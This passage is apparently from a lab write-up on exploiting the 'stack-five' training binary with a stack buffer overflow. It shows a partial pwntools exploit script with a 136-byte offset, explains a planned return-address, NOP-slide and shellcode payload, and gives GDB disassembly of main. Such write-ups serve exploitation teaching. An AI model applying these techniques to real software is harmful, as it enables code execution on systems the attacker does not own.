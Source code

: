 From the binary analysis we know that this binary is little endian so now we know that the offset is `136`

# Crafting exploit

We can now start working on the exploit

```python
#!/usr/bin/env python3

from pwn import *

# Defining binary
bin = context.binary = ELF('./stack-five', checksec=False)
p = process(bin.path)
context.update(arch="amd64")

# The offset and padding we need to overflow the buffer
OFFSET  = 136
PADDING = b'A' * OFFSET
```

I am using the `pwntools` library and I create a an ELF binary object, start the proccess which will open the program to interact with with it and I set the architecture.

## Payload

Currently our exploit will take us to the address where it will overwrite `rip` and then just go into the stack. So first part of our payload will be the address to write into `rip` and then we are going to need a nop slide to make sure we hit our shellcode and then finally, our shellcode.

{{< admonition question "What is a nopslide?" >}}
When performing a buffer overflow attack, a NOP slide can help an attacker hit their shellcode by creating a region of uncertainty about the exact location of the code. By inserting a large block of NOP instructions in between the code and the shellcode, an attacker can increase the chances of their shellcode being executed, even if they do not know the exact location of the code they are trying to overwrite. - ChatGPT
{{< /admonition >}}

### Step 1 - Find stack address

I want to make sure I have the stack address at the point where the main function would return.

We can do that by first adding a breakpoint at the return instruction of `main()` in GDB.

To see the addresses of the instructions we can disassemble the function:

```bash
gef➤  disas main
Dump of assembler code for function main:
   0x00000000004005a4 <+0>:	push   rbp
   0x00000000004005a5 <+1>:	mov    rbp,rsp
   0x00000000004005a8 <+4>:	sub    rsp,0x10
   0x00000000004005ac <+8>:	mov    DWORD PTR [rbp-0x4],edi
   0x00000000004005af <+11>:	mov    QWORD PTR [rbp-0x10],rsi
   0x00000000004005b3 <+15>:	mov    edi,0x400620
   0x00000000004005b8 <+20>:	call   0x400400 <puts@plt>
   0x00000000004005bd <+25>:	mov    eax,0x0
   0x00000000004005c2 <+30>:	call   0x40058d <start_level>
   0x00000000004005c7 <+35>:	mov    eax,0x0
   0x00000000004005cc <+40>:	leave
   0x00000000004005cd <+41>:	ret
End of assembler dump.
gef➤  b *0x4005cd
Breakpoint 1 at 0x4005cd
gef➤
```